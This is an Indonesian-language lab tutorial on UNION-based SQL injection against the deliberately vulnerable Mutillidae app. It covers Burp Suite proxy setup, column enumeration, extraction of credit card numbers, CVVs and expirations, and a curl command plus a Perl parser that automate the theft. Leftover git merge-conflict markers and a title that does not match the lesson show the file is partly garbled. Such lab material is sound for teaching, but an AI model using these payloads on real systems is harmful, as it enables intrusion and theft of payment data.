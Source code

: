 Lesson 10 - SQL Injection Union Exploit #3
-------

### # Mempersiapkan Burp Suite dan Firefox

- **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)


-  **Step 2** : Setting proxy pada firefox dengan membuka pengaturan network melalui open menu --> Preferences -> Advanced --> Network

- **Step 3** : Pada bagian connection, klik tombol _Settings_. Setelah mengklik tombol _Settings_, maka akan muncul kotak dialog _Connection Settings_. Atur _Connection Settings_ sesuai gambar.
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_06_35.png)

- **Step 4** : Buka burpsuite, dengan cara pilih Applications --> Web Application Analysis --> burpsuite
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_10_12.png)


 - **Step 5** : Pada saat burpsuite telah dibuka, maka akan ditanyakan tentang project. Klik tombol Next 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_24_51.png)
 
 - **Step 6** : Setelah menekan tombol next, maka selanjutnya ada memilih konfigurasi burp. Pilih radio button User Burp defaults dan Klik Start Burp
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_26_28.png)
 
 - **Step 7** : Setelah menekan tombol Start Burp, maka aplikasi Burp Suite sudah berjalan. Langkah selanjutnya adalah memastikan apakah port proxy pada Burp Suite adalah 8080, dengan cara memilih menu Proxy --> Options
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_31_58.png)
 
 - **Step 8** : Setelah memastikan port porxy 8080, maka selanjutnya adalah mematikan Intercept pada menu Proxy --> Intercept.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_34_07.png)
 
 
<<<<<<< HEAD
=======
<<<<<<< HEAD
### # SQL Injection (Union Example #1)
 
 - **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)


- **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

- **Step 3** : Masukkan syntax sql `' union select null -- ` pada text box name untuk perbocaan pertama melakukan sql injection dan tekan tombol _View Account Details_.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_40_50.png)
 
- **Step 4** : Setelah menekan tombol _View Account Details_, maka akan terjadi error query karena jumlah kolom dan kolom union berbeda.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_44_12.png)

- **Step 5** : Lakukan **Step 2** kembali. Setelah melakukan **Step 2**, lakukan kembali **Step 3** dengan menambah `null` pada syntax query sql injection. Contoh penambahan `null` pada query sql injection `' union select null,null -- `.

- **Step 6** :  Lakukan **Step 5** sampai jumlah kolom union dan kolom table accounts sama. `' union select null,null,null,null,null -- ` adalah syntax query hasil percobaan **Step 5**. Dapat disimpulkan jumlah kolom pada table accounts adalah 5.

- **Step 7** : Masukkan query sql injection `' union select null,null,null,null,null -- ` pada textbox name. Dan kemudian tekan tombol _View Account Details_.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_56_23.png)

- **Step 8** : Setelah menekan tombol _View Account Details_, maka hasilnya akan menunjukan kolom yang ditampilkan pada web.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_58_23.png)

- **Step 9** : Lakukan **Step 7** kembali dengan mengganti `null` menjadi angka dengan query sql injection sebagai berikut `' union select 1,2,3,4,5 -- `
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_03_20.png)
 
- **Step 10** : Dapat dilihat dari hasil percobaan **Step 9** bahwa kolom username diisi oleh nomer 2, password diisi oleh nomer 3 dan Signature diisi oleh nomer 4.
 
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_04_19.png)

- **Step 11** : Langkah selanjutnya adalah melakukan serangan sql injection dengan menggabungkan dengan tabel yang sudah diketahui selain accounts. Contohnya menggunakan tabel credit_cards, sehingga query sql injectionnya menjadi `' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_10_49.png)
 
- **Step 12** : Maka hasilnya, bagian username diisi oleh ccnnumber, password diisi oleh ccv, dan signature diisi oleh expiration. 
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_12_04.png)
 

### # Curl Action
- **Step 1** : Buka Burp Suite dan cari log hasil sniffing pada **step 12** pada bagian SQL Injection (Union Example #1), kemudian catat/copas raw header request.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_17_58.png)

- **Step 2** : Copas Cookie pada hasil header dan masukkan pada file crack_cookies.txt
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_21_02.png)
 
- **Step 3** : Jalankan perintah 
`curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'` 
dan lihat hasilnya. Hasilnya adalah data hasil sql injection.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_23_28.png)
 
### # Perl Parser
- **Step 1** : Download lesson8.pl pada link berikut [http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT](/http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT)
- **Step 2** : Ganti nama lesson8.pl.TXT menjadi lesson8.pl dan ubah permission menjadi `rwx------` atau 700.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_39_29.png)
- **Step 3** : Jalankan perintah 
`curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username="  > lesson8.txt`
- **Step 4** : Setelah menjalankan perintah tersebut maka hasil perintah pada **Step 3** disimpan pada file lesson8.txt.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_42_37.png)
- **Step 5** : Jalankan file lesson8.pl dan lihat hasilnya.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_43_37.png)

